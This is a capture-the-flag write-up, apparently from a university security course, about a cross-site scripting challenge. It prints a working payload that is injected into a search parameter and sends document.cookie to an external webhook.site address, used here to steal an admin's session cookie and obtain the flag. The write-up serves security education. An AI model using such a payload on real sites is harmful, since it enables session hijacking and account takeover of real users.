



---

## Description

I do not want my own cookies. I want `admin`'s cookies!!!!

`http://ssof2526.challenges.cwte.me:25251`

---


The website is the same as the previous one, but this time I want the `admin` cookies.


For this I just encoded this payload:

`"><script>fetch('https://webhook.site/e28973d5-ddd8-430a-9c8b-9bb9034753ff?c=' + document.cookie)</script>` 

And submitted it as the **search parameter**, so when the admin reviews it in the search field (like this):



It will execute my JavaScript and fetch the cookies to my webhook.

After that I got the admin's cookies.




## FLAG
```flag
SSof{This_is_admin_secret_secret}
```

---

## Conclusion

This challenge was similar to the previous XSS challenge, where I targeted the admin's session instead. Injecting a payload into the search field made the script run when the admin viewed it, sending their cookies to my webhook. It shows how poorly sanitized input can lead to XSS that exposes sensitive data.
